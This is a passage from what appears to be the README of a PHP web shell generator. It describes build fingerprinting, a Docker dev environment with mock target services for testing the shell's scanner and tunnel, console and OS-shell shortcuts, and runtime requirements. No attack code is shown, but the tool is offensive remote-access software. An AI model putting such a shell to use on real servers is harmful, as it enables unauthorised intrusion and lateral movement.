Every shell embeds a unique `__BUILD` constant with hash, timestamp, language, version, and operator seed. Visible in Diagnostics → Build Info. Use `--verify dist/shell_<hash>.php` to check integrity of a deployed build.

---

## Development

Docker-based dev setup for rapid iteration:

```bash
# Start dev containers (PHP 8.2 + Apache, plus nginx / mysql / redis targets)
docker compose -f dev/docker-compose.yml up -d

# Build shell (output volume-mounted — changes are instant)
python3 generate.py --output dev.php --theme ocean

# http://localhost:8888/dev.php

# Auto-rebuild on source changes
cd dev && ./watch.sh --theme ocean
```

Internal target services for testing the scanner and tunnel:

| Service | Hostname (from shell) | Port |
|---------|----------------------|------|
| nginx | `target-web` | 80 |
| MySQL 8.0 | `target-mysql` | 3306 |
| Redis | `target-redis` | 6379 |

---

## Keyboard Shortcuts

| Key | Context | Action |
|-----|---------|--------|
| `Enter` | PHP Console / OS Shell | Execute |
| `Shift+Enter` | PHP Console / OS Shell | Newline (multi-line input) |
| `Ctrl+↑` / `Ctrl+↓` | PHP Console / OS Shell | Navigate history |
| `Ctrl+L` | PHP Console / OS Shell | Clear output |

---

## Requirements

- **Generator** — Python 3.6+ (stdlib only)
- **Runtime** — PHP 5.6+ (`stream_socket_client` + `stream_select` needed for tunnel and scanner)
- **Tunnel client** — Python 3.8+ with `aiohttp`, `cryptography`
- **Browser** — Any modern browser with IndexedDB + Web Crypto API (for encrypted mode)

---

## License

MIT
